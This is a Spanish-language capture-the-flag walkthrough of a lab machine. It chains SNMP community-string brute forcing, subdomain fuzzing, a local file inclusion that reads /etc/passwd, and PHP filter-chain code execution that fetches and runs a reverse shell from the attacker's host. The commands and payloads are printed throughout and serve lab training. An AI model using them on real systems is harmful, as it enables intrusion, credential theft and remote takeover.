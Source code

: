 Hacemos el escaneo de nmap:
![[Pasted image 20231120191445.png]]
Y esto es lo que corre por el puerto 80:
![[Pasted image 20231120191527.png]]
Y si ejecutamos un strings a la imagen nos encontramos con un id_rsa:
![[Pasted image 20231120191615.png]]
Pero esto no lleva a ningún lado; por lo que seguimos investigando y si probamos en hacer un escaneo de puertos por el protocolo UDP, vemos que el puerto 161 está abierto:
![[Pasted image 20231120191823.png]]
Antes de nada, hay que entender qué es el protocolo snmp:

- (SNMP) es un protocolo de capa de aplicación que facilita el intercambio de información de administración entre dispositivos de red
- La herramienta Onesixtyone es una herramienta de administración de red basada en SNMP que se utiliza para recopilar y analizar datos de dispositivos de red.
- En el contexto de SNMP, una community key es una cadena de caracteres que se utiliza para autenticar el acceso a un dispositivo de red.
Si buscamos en internet cómo enumerar el servicio snmp, tenemos una herramienta llamada onesixtyone usando el siguiente diccionario:
```
https://github.com/hackingyseguridad/diccionarios/blob/master/usuarios.txt
```
![[Pasted image 20231120192239.png]]
Este diccionario lo utilizaremos con onesixtyone de la siguiente forma:
```
onesixtyone -c usuarios.txt 192.168.0.25
```
Y vemos que nos encuentra la community key llamada security. La cadena de comunidad actúa como una especie de contraseña que permite a los dispositivos de gestión SNMP comunicarse con los agentes SNMP en los dispositivos gestionados: 
![[Pasted image 20231120192506.png]]
Ahora con esta contraseña, podemos enumerar este protocolo con snmpwalk, donde utilizaremos el siguiente comando que utilizará la versión 2c y la cadena de comunidad security:
```
snmpwalk -v 2c -c security 192.168.0.25
```
Y nos encontramos un dominio:
![[Pasted image 20231120192822.png]]
Que lo añadiremos al /etc/hosts:
![[Pasted image 20231120192905.png]]
Y vamos a hacer una búsqueda de subdominios con wfuzz:
```python
wfuzz -c --hc=404 --hl=11 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.chaincorp.nyx" -u 192.168.0.25
```
Y encontramos el subdominio utils, por lo que añadimos utils.chaincorp.nyx al /etc/hosts:
![[Pasted image 20231120193133.png]]
![[Pasted image 20231120194141.png]]
Y esto es lo que tenemos, una web donde podemos ejecutar comandos:
![[Pasted image 20231120194214.png]]
![[Pasted image 20231120194250.png]]
Y por aquí podemos explotar un LFI de una forma muy básica:
```
http://utils.chaincorp.nyx/include.php?in=../../../../../../etc/passwd
```
![[Pasted image 20231120194330.png]]
No obstante, podemos intentar leer el fichero include.php, que lo vemos dentro de la url pero en un principio no podemos leerlo, por lo que podemos usar un wrapper, que podemos extraerlo de este repositorio de github:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#local-file-inclusion
```
![[Pasted image 20231120194607.png]]
Lo aplicamos y nos devuelve el contenido de este archivo codificado en base64:
```
http://utils.chaincorp.nyx/include.php?in=php://filter/convert.base64-encode/resource=include.php
```
![[Pasted image 20231120194706.png]]
Y vemos que efectivamente podemos bypassear el lfi y leer el contenido de cualquier fichero:
![[Pasted image 20231120194752.png]]
Existe una tool llamada php_filet_chain_generator que nos permite ejecutar un comando a partir de un LFI conocido, la cual podemos encontrarla en el siguiente repositorio de github:
```
https://github.com/synacktiv/php_filter_chain_generator
```
Y aquí tenemos sus instrucciones de uso:
![[Pasted image 20231120195055.png]]
Lo ejecutamos pero en la parte del php le metemos un comando, por ejemplo el comando ls -l:
```bash
python3 php_filter_chain_generator.py --chain "<?php system('ls -l'); ?>"
```
![[Pasted image 20231120195245.png]]
Pegamos todo esto a partir del php?in= y vemos que se ejecuta el comando:
![[Pasted image 20231120195326.png]]
En este punto lo que haremos será compartir la reverse shell dentro de un index.html desde python, y dentro del payload tenemos que usar wget primero para descargarlo:
![[Pasted image 20231129132004.png]]
```bash
python3 php_filter_chain_generator.py --chain "<?php system('wget 192.168.0.24'); ?>"
```
![[Pasted image 20231129132036.png]]
Y si lanzamos un ls, ahora el archivo está dentro de la máquina, por lo que ejecutamos el siguiente otro payload para ejecutar dicho archivo:
![[Pasted image 20231129132131.png]]
Por tanto ahora ya podemos ejecutar este archivo y obtener la reverse shell:
```bash
python3 php_filter_chain_generator.py --chain "<?php system('bash index.html.3'); ?>"
```
![[Pasted image 20231129132243.png]]
![[Pasted image 20231129132323.png]]
Y habremos recibido la conexión:
![[Pasted image 20231129132337.png]]
